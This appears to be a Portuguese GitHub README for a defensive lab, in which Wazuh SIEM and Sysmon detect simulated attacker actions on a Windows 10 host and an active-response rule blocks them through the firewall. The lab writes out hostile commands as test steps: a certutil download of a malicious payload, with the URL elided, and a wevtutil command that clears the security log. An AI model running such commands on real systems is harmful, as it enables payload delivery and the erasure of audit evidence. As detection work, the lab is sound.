





# Wazuh SIEM / Active Response: Detecção e Resposta a Incidentes

Laboratório prático focado em centralização de eventos, correlação de logs e automação de resposta a incidentes utilizando o **Wazuh SIEM/EDR** integrado ao **Microsoft Sysmon**.

## Arquitetura
- **SIEM/EDR Manager: Wazuh Server > VirtualBox (192.168.100.142)** - Centralização, correlação e regras de resposta a incidentes.
- **Endpoint alvo (Agente): Windows 10 Home (192.168.100.30)** - Coleta de telemetria via **Wazuh Agent** e **Microsoft Sysmon** (Visibilidade detalhada de processos e redes).

## Cenário de Ataque / Geração de Alertas

> Para testar a eficiência da telemetria e o comportamento do SIEM, foram simuladas táticas ofensivas pós-comprometimento no endpoint monitorado. Cada ação executada no terminal gerou eventos específicos capturados pelo **Sysmon** e correlacionados pelo **Wazuh**.
---
### 1. Download de Payload Malicioso
**Comando Executado:** `certutil.exe -urlcache -split -f "https://..." C:\Windows\Temp\malicious_payload.exe`
- **Telemetria / Geração de Alerta:**
  * O utilitário nativo do Windows foi abusado para realizar o download de um binário externo.
  * O Sysmon registrou a criação de processo (**Event ID 1**).
  * O Wazuh correlacionou os argumentos da linha de comando e disparou a **Regra 92075 (Nível 12 - Crítico)**, sinalizando a tentativa de download não autorizado no diretório temporário.
 
---

### 2. Limpeza dos Logs de Auditoria (Evasão de Defesa)
**Comando Executado:** `wevtutil cl Security`
- **Telemetria / Geração de Alerta:**
  * Tentativa de apagar o histórico do log de Segurança do Windows para ocultar rastro de atividades maliciosas.
  * O sistema operacional gerou nativamente o **Event ID 1102** (Log de Auditoria Limpo).
  * O Wazuh identificou a ação imediatamente através da **Regra 63103 (Nível 5 - Médio)**, notificando a equipe de SOC sobre a manipulação de logs no host.

---

### 3. Enumeração de Usuários do Sistema (Reconhecimento Local)
**Comando Executado:** `net user`
- **Telemetria & Geração de Alerta:**
  * Mapeamento de contas e privilégios locais para identificação de possíveis alvos de elevação de privilégio.
  * O Sysmon coletou a chamada do processo pai (`cmd.exe`) chamando o binário `net.exe`.
  * O SIEM registrou o comportamento com a **Regra 92031 (Nível 3 - Informativo)** para manter o rastreamento da sessão do usuário.

---
 
## EvidÊncias de Execução

### 1. Execução no Endpoint


### 2. Telemetria e Eventos Coletados no SIEM



---
 
 ## Automação e Resposta Ativa (Active Response)
---
Para automatizar a contenção de ameaças sem necessidade de intervenção manual, o arquivo de configuração do Wazuh Manager (`/var/ossec/etc/ossec.conf`) foi editado para disparar o script de bloqueio de rede via Windows Firewall (`netsh`):

### 1. Configuração do Gatilho no Manager
```xml
<active-response>
  <command>netsh</command>
  <location>local</location>
  <rules_id>92075, 63103</rules_id>
  <timeout>60</timeout>
</active-response>
```
---

### 2. Validação da Mitigação Automática

Ao identificar os comportamentos maliciosos configurados, o Wazuh Manager acionou autonomamente a regra de resposta ativa no host:





# Conclusão

**A integração entre a telemetria do Sysmon e o motor de correlação do Wazuh SIEM permitiu mapear com precisão táticas de evasão e execução de LOLBins. A implementação do Active Response reduziu o Tempo Médio de Resposta (MTTR) de minutos para 0 segundos, realizando a contenção do vetor de ameaça na camada de rede local sem necessidade de intervenção humana manual.**
